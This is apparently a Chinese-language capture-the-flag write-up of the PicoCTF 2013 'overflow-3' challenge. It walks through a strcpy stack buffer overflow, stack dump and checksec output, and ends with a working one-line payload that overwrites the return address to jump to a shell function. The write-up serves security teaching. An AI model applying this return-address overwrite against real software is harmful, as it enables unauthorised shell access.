 ```yaml
---
title: 2013PicoCTF overflow-3
date: 2019-04-18 23:38:22
categories: Pwn
---
```

# Write-Up
```
void shell(void) {
    execl("/bin/sh", "sh", NULL);
}

void vuln(char *str) {
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 21, (void **) &str);
}
```
这时不再是修改变量，而是要跳到一个函数执行

从linux函数执行的步骤来说，函数的返回地址会放在栈上

>Stack dump:
0xff98cb00: 0xff98d2fd (first argument)
0xff98cafc: 0x080486bc (saved eip)  ←这里就是函数执行完后返回的地址
0xff98caf8: 0xff98cb28 (saved ebp)
0xff98caf4: 0xf7000804
0xff98caf0: 0x85c2b8c3
0xff98caec: 0x61616161
0xff98cae8: 0x61616161
0xff98cae4: 0x61616161
0xff98cae0: 0x61616161
0xff98cadc: 0x61616161
0xff98cad8: 0x61616161
0xff98cad4: 0x61616161
0xff98cad0: 0x61616161
0xff98cacc: 0x61616161
0xff98cac8: 0x61616161
0xff98cac4: 0x61616161
0xff98cac0: 0x61616161
0xff98cabc: 0x61616161
0xff98cab8: 0x61616161
0xff98cab4: 0x61616161
0xff98cab0: 0x61616161 (beginning of buffer

查看程序保护措施
>➜  overflow3 checksec overflow3 
[*] '/home/mjr/Desktop/pico/overflow3/overflow3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

没有什么保护措施，NO PIE所以函数的地址是相同的，而且从打印中我们直接得到shell函数的地址
>shell function = 0x80485f8

再计算偏移
>'a'*76+0x80485f8



```
./overflow3 `python2 -c "print 'a'*76+'\xf8\x85\x04\x08'"`
```
getshell
